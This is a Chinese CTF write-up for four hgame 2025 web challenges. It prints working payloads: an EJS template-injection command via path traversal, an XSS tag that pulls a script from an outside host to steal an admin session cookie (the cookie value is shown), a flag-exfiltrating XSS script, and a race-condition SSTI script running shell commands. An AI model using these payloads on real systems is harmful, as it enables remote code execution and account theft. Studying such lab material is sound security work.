# hgame2025 第一周 web wp-先知社区

> **来源**: https://xz.aliyun.com/news/16776  
> **文章ID**: 16776

---

##### Level 24 Pacman

一个前端小游戏，禁了一些开f12的操作，直接在设置那里开，或者在http前面加一个view-source:查看源代码即可：



在index.js中，有一个很明显的可能是flag的地方：



看起来感觉很对，先base64解密一下，然后再拿到随波逐流一把梭：



但是这是一个假的flag。后面就审index.js源代码，发现在页面前面有另外一个gift：



即：

aGFldTRlcGNhXzR0cmdte19yX2Ftbm1zZX0=

还是之前的操作，但是这个就是一个正确的flag了：



flag如下：

hgame{u\_4re\_pacman\_m4ster}

——————

##### Level 47 BandBomb

给了附件，一个app.js文件：

```
const express = require('express');
const multer = require('multer');
const fs = require('fs');
const path = require('path');

const app = express();

app.set('view engine', 'ejs');

app.use('/static', express.static(path.join(__dirname, 'public')));
app.use(express.json());

const storage = multer.diskStorage({
  destination: (req, file, cb) => {
    const uploadDir = 'uploads';
    if (!fs.existsSync(uploadDir)) {
      fs.mkdirSync(uploadDir);
    }
    cb(null, uploadDir);
  },
  filename: (req, file, cb) => {
    cb(null, file.originalname);
  }
});

const upload = multer({ 
  storage: storage,
  fileFilter: (_, file, cb) => {
    try {
      if (!file.originalname) {
        return cb(new Error('无效的文件名'), false);
      }
      cb(null, true);
    } catch (err) {
      cb(new Error('文件处理错误'), false);
    }
  }
});

app.get('/', (req, res) => {
  const uploadsDir = path.join(__dirname, 'uploads');
  
  if (!fs.existsSync(uploadsDir)) {
    fs.mkdirSync(uploadsDir);
  }

  fs.readdir(uploadsDir, (err, files) => {
    if (err) {
      return res.status(500).render('mortis', { files: [] });
    }
    res.render('mortis', { files: files });
  });
});

app.post('/upload', (req, res) => {
  upload.single('file')(req, res, (err) => {
    if (err) {
      return res.status(400).json({ error: err.message });
    }
    if (!req.file) {
      return res.status(400).json({ error: '没有选择文件' });
    }
    res.json({ 
      message: '文件上传成功',
      filename: req.file.filename 
    });
  });
});

app.post('/rename', (req, res) => {
  const { oldName, newName } = req.body;
  const oldPath = path.join(__dirname, 'uploads', oldName);
  const newPath = path.join(__dirname, 'uploads', newName);

  if (!oldName || !newName) {
    return res.status(400).json({ error: ' ' });
  }

  fs.rename(oldPath, newPath, (err) => {
    if (err) {
      return res.status(500).json({ error: ' ' + err.message });
    }
    res.json({ message: ' ' });
  });
});

app.listen(port, () => {
  console.log(`服务器运行在 http://localhost:${port}`);
});
```

可以看出来是一个node.js的题目，然后使用了ejs模板，网上可以搜到是由ejs模板渲染漏洞的，存在漏洞函数就是render()函数，在这个源代码中正好是存在调用render()函数的：

```
app.get('/', (req, res) => {
  const uploadsDir = path.join(__dirname, 'uploads');
  
  if (!fs.existsSync(uploadsDir)) {
    fs.mkdirSync(uploadsDir);
  }

  fs.readdir(uploadsDir, (err, files) => {
    if (err) {
      return res.status(500).render('mortis', { files: [] });
    }
    res.render('mortis', { files: files });
  });
});
```

在初始页面就存在模板渲染。现在就是看怎么可以进行渲染。

在这里的rename路由，由于未对输入进行限制，这里是可以通过../这样来路径穿越覆盖文件的。

审源代码，可以知道如下信息：

* 在render()函数渲染的mortis是一个自定义的前端模板文件，一般会命名为mortis.ejs文件，这里通过渲染这个摹本文件时实现在前端，后面的files就是上传的文件名，当上传文件后如下：



会将文件名渲染到这个前端中。

* 还可以拿到这个mortis.ejs文件的路径：

一般EJS模板文件是存放在项目的views目录下，这是Express框架的默认约定，用于存在模板文件，就像flask框架中的是将html模板文件放在templates目录下。主要作用代码如下：

app.set('view engine', 'ejs');

这个就代表使用默认情况。当然还可以指定其他目录，这里就不多说了。

所以现在可以拿到mortis.ejs模板文件的路径，现在的思路就是，可以通过rename来路径穿越覆盖ejs模板文件，然后来达到模板渲染漏洞，使用的payload如下：

<%= process.mainModule.require('child\_process').execSync('id') %>

现在来看rename路由：

```
app.post('/rename', (req, res) => {
  const { oldName, newName } = req.body;
  const oldPath = path.join(__dirname, 'uploads', oldName);
  const newPath = path.join(__dirname, 'uploads', newName);

  if (!oldName || !newName) {
    return res.status(400).json({ error: ' ' });
  }

  fs.rename(oldPath, newPath, (err) => {
    if (err) {
      return res.status(500).json({ error: ' ' + err.message });
    }
    res.json({ message: ' ' });
  });
});
```

需要注意的是，源代码中是设置了解析json格式的数据的：

app.use(express.json());

所以这里直接传参json格式的数据即可，在rename路由这里，是限制了只能在uploads路由下来更改，直接一个../路径穿越即可：

{"oldName":"test.txt","newName":"../views/mortis.ejs"}

所以最后的操作如下：

上传test.txt文件：



路径穿越修改名称：



然后再刷新一下初始页面即可：



成功命令执行。

在burp的repeater中再打就行，一个上传页面，一个rename页面，app.js没受影响，最后执行env里找到flag：



flag如下：

hgame{@ve-mUjlc4-hAS\_Br0KEN\_uP-but\_we-H4V3\_uMITaKI2f}

——————

##### Level 69 MysteryMessageBoard

留言板题，一看就是xss，然后题目描述中给了一个比较重要的点：


没啥难度，就是xss获取admin的cookie然后打就行。

开题如下：



直接跳到login路由，想着是不是需要register一下，没有这个路由，那么就直接扫目录试试，扫出来了一个admin路由：



xss可以确定了，其他没扫出啥，登录框那么就只有尝试弱密码爆破了，账户设置为shallot，然后那弱密码字典在burp上爆破就行，最后爆出来为888888，登陆后如下：



然后在xss平台上设置接收cookie即可：

<sCRiPt sRC=//xs.pe/Ywd></sCrIpT>

然后访问admin路由让其来看就行，成功拿到admin的cookie：


即：

session=MTczODczNjk4OHxEWDhFQVFMX2dBQUJFQUVRQUFBbl80QUFBUVp6ZEhKcGJtY01DZ0FJZFhObGNtNWhiV1VHYzNSeWFXNW5EQWNBQldGa2JXbHV8UM10xoUJICms0NvchVjhygVLnAQtrV5ugbyvPcp0D1E=

然后直接获取cookie然后访问flag即可，这个也是比较坑的点，扫的时候没扫出来，后面试了一下才发现：



所以就是要拿admin的cookie，flag如下：



即：

hgame{W0w\_y0u\_5r4\_9o0d\_4t\_xss}

后面写wp时一直没搞出来，应该是自己网的问题，换了一下网成功拿到admin的cookie。但是试了一下，不出网也有打法：

```
<script>var xmlhttp = new XMLHttpRequest();
xmlhttp.withCredentials = true;

xmlhttp.onreadystatechange = function() {
    if (xmlhttp.readyState == 4 && xmlhttp.status == 200) {
        var flagData = xmlhttp.responseText;
        var flag1 = btoa(flagData);
        var remoteServerUrl = '/';
        var xmlhttp2 = new XMLHttpRequest();
        xmlhttp2.open("POST", remoteServerUrl, true);
        xmlhttp2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        xmlhttp2.send("comment=" + encodeURIComponent(flag1))
    }
};
xmlhttp.open('GET', '/flag', true);
xmlhttp.send();</script>
```

然后访问admin即可拿到base64编码后的内容：



解码就是flag。这里就是让admin自己去获取flag后将内容再输出到留言板中，和网鼎杯青龙组的web02一样的做法。

这里还需要admin和shallot的留言板是同一个，不然应该也是获取不到的，后面还是需要多注意。

————

##### Level 38475 角落

开题，python后端，扫目录，扫到一个robots.txt文件和index.html页面，其实就是初始页面的前端，内容如下;

```
User-agent: *
Disallow: /app.conf
Disallow: /app/*
```

访问app.conf文件：

```
# Include by httpd.conf
<Directory "/usr/local/apache2/app">
    Options Indexes
    AllowOverride None
    Require all granted
</Directory>

<Files "/usr/local/apache2/app/app.py">
    Order Allow,Deny
    Deny from all
</Files>

RewriteEngine On
RewriteCond "%{HTTP_USER_AGENT}" "^L1nk/"
RewriteRule "^/admin/(.*)$" "/$1.html?secret=todo"

ProxyPass "/app/" "http://127.0.0.1:5000/"
```

可以知道这个是apache，然后看这个配置文件，限制了对app.py文件的访问，然后有一个url重定向规则，就是当HTTP请求头中的User-Agent字段是否以L1nk/开头，然后就会将匹配/admin/路径的请求重写为/$1.html?secret=todo，比如如下获取到index.html页面：



成功拿到。但是这里有什么用呢，结合是apache+重写url，网上搜索到了相关文章：

《[关于Apache HTTP Server mod\_rewrite输出不当逃逸漏洞 (CVE-2024-38475)](https://www.hnitns.com/index.php?id=255)》

然后搜CVE的POC，如下文章：

<https://github.com/p0in7s/CVE-2024-38475>

<https://blog.orange.tw/posts/2024-08-confusion-attacks-ch/>

看到了一个几乎一样的配置：



并且说明了可以获取到源代码：



那么尝试一下获取app.py文件：



成功获取到了源代码：

```
from flask import Flask, request, render_template, render_template_string, redirect
import os
import templates

app = Flask(__name__)
pwd = os.path.dirname(__file__)
show_msg = templates.show_msg


def readmsg():
    filename = pwd + "/tmp/message.txt"
    if os.path.exists(filename):
        f = open(filename, 'r')
        message = f.read()
        f.close()
        return message
    else:
        return 'No message now.'


@app.route('/index', methods=['GET'])
def index():
    status = request.args.get('status')
    if status is None:
        status = ''
    return render_template("index.html", status=status)


@app.route('/send', methods=['POST'])
def write_message():
    filename = pwd + "/tmp/message.txt"
    message = request.form['message']

    f = open(filename, 'w')
    f.write(message) 
    f.close()

    return redirect('index?status=Send successfully!!')
    
@app.route('/read', methods=['GET'])
def read_message():
    if "{" not in readmsg():
        show = show_msg.replace("{{message}}", readmsg())
        return render_template_string(show)
    return 'waf!!'
    

if __name__ == '__main__':
    app.run(host = '0.0.0.0', port = 5000)
```

然后读取templates.py文件：

show\_msg = '''Latest message: {{message}}'''

审计源代码，可以知道存在ssti漏洞，过滤了{，这样看似是不能进行ssti了，但是里面存在一个漏洞点：

```
@app.route('/read', methods=['GET'])
def read_message():
    if "{" not in readmsg():
        show = show_msg.replace("{{message}}", readmsg())
        return render_template_string(show)
    return 'waf!!'
```

这里的readmsg()函数是读取文件内容的，那么是否可以通过在if条件时不存在{，然后马上在第二次调用readmsg()函数时将其改为payload。这里就需要用到条件竞争，让其在第一次写入文件，然后read读取时不会触发waf，然后马上修改文件内容，使得在第二次调用readmsg()函数时就读取到payload，根据要求让gpt写一个脚本，那么尝试脚本如下：

```
import requests
import threading
import time
import os

target = 'http://node1.hgame.vidar.club:30593/app'


def race_write():
    while True:
        # 第一次写入无害内容绕过检查
        requests.post(target + '/send', data={'message': 'hello'})
        # 立即覆盖为恶意payload
        requests.post(target + '/send', data={'message': '{{7*7}}'})


def exploit():
    while True:
        r = requests.get(target + '/read')
        if '49' in r.text:  # 检查是否成功执行
            print('Exploit success!')
            print(r.text)
            os._exit(0)


if __name__ == '__main__':
    # 先初始化一个合法内容
    requests.post(target + '/send', data={'message': 'hello'})

    # 启动竞争写入线程
    threading.Thread(target=race_write, daemon=True).start()

    # 启动检测线程
    threading.Thread(target=exploit, daemon=True).start()

    # 保持主线程运行
    while True:
        time.sleep(1)
```

成功运行：



然后改成常用的ssti的payload，简单改改脚本即可，

```
import requests
import threading
import time
import os

target = 'http://node1.hgame.vidar.club:30593/app'


def race_write():
    while True:
        # 第一次写入无害内容绕过检查
        requests.post(target + '/send', data={'message': 'hello'})
        # 立即覆盖为恶意payload
        #requests.post(target + '/send', data={'message': "{{lipsum.__globals__.__builtins__['__import__']('os').popen('ls /').read()}}"})
        requests.post(target + '/send',
                      data={'message': "{{lipsum.__globals__.__builtins__['__import__']('os').popen('cat /flag').read()}}"})


def exploit():
    while True:
        r = requests.get(target + '/read')
        #if 'bin' in r.text:  # 检查是否成功执行
        if 'hgame' in r.text:
            print('Exploit success!')
            print(r.text)
            os._exit(0)


if __name__ == '__main__':
    # 先初始化一个合法内容
    requests.post(target + '/send', data={'message': 'hello'})

    # 启动竞争写入线程
    threading.Thread(target=race_write, daemon=True).start()

    # 启动检测线程
    threading.Thread(target=exploit, daemon=True).start()

    # 保持主线程运行
    while True:
        time.sleep(1)
```

最后跑出flag：



即：

hgame{You-FlnD-tH3-key\_to-RrRac3\_0uUUuT219bfe9}

​
